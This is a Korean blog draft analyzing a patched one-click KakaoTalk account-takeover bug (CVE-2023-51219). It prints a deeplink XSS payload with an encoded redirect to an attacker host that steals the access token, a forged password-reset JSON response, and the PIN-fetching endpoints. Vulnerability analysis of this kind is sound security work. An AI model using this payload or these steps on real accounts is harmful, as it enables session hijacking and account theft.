 ```yaml
---
title: CVE-2023-51219 Kakaotalk One Click Exploit
published: 2025-06-02
description: " "
tags: [One_day_analysis]
category: analysis
draft: true
---
```


:::note
https://stulle123.github.io/posts/kakaotalk-account-takeover/  
stulle123님의 블로그를 기반으로 합니다.
:::

카카오 버그바운티에 자주 참여하는 사람으로써 해당 취약점 분석을 안해볼 수 없었습니다.
`stulle123`님의 블로그와 관련 자료를 기반으로 하여, 구버전 카톡을 분석하였습니다

공격자는 해당 취약점을 이용해 원클릭으로 상대의 카카오톡 세션을 탈취할 수 있었습니다.

공격루틴은 아래와 같습니다

### 1. XSS를 통한 access token 탈취
```
kakaotalk://buy/auth/0/cleanFrontRedirect?returnUrl=https://m.shoppinghow.kakao.com/m/product/Q24620753380/q:"><img src=x onerror="document.location=atob('aHR0cDovLzE5Mi4xNjguMTc4LjIwOjU1NTUv');">
```
카카오톡 Android 앱의 `CommerceBuyActivity`는 딥링크를 통해 외부 웹페이지를 WebView로 로드합니다.
공격자는 이를 이용해 위와 같은 XSS 페이로드를 작성했습니다.

`CommerceBuyActivity`에서 `kakaotalk://buy/hello`는 `https://buy.kakao.com/hello`와 같이 해석되어 URL을 로드합니다.

이 상태에서는 buy.kakao.com에서 xss를 터트리는 것 외에는 방법이 없어보입니다.
따라서 분석자는 `https://buy.kakao.com/auth/0/cleanFrontRedirect?returnUrl=`에서 Open Redirect 취약점을 찾아 다른 xss 포인트로 옮기는 방법을 사용했습니다.

`shoppinghow.kakao.com`에서 DOM기반 XSS 취약점이 터져 해당 포인트에서 익스플로잇 했습니다.

### 2. 카카오 메일 계정 탈취
서버로 요청된 `Authorization` 헤더에서 카카오 계정 access token이 노출됩니다

카카오 계정 토큰을 가지고 카카오 메일의 토큰을 만들었고 카카오 메일 계정을 탈취했습니다

1. 비밀번호 재설정을 요청합니다
2. `/kakao_accounts/check_verify_type_for_find_password.json` 패킷을 위조해 재설정 인증번호를 카카오 메일로 받습니다
```json
{
  "status": 0,
  "verify_types": [
    0
  ],
  "suspended": false,
  "dormant": false,
  "kakaotalk": false,
  "expired": false,
  "created_at": 1700754321,
  "two_step_verification": false,
  "is_fill_in_email": false,
  "account_type": 0,
  "display_id": null
}
```

- `verify_types`을 변경해 확인코드가 폰 대신 이메일로 전송되게 만들었다고 합니다

이를 통해 탈취한 이메일로 인증번호를 받아 비밀번호를 변경했습니다

### 3. 카카오톡 계정 탈취
카카오톡 로그인에는 4자리 핀코드를 입력하는 2차 인증이 기본적으로 설정 되어 있습니다.

https://talk-pilsner.kakao.com/talk-public/account/passcodeLogin/authorize
https://katalk.kakao.com/win32/account/register_device.json

각각 모바일, PC에서의 인증번호를 받는 HTTP API 입니다.

탈취한 access_token을 사용해 PIN 번호를 임의로 가져올 수 있었습니다.

이로써 공격자는 완전히 피해자의 카카오톡 계정을 탈취했습니다.
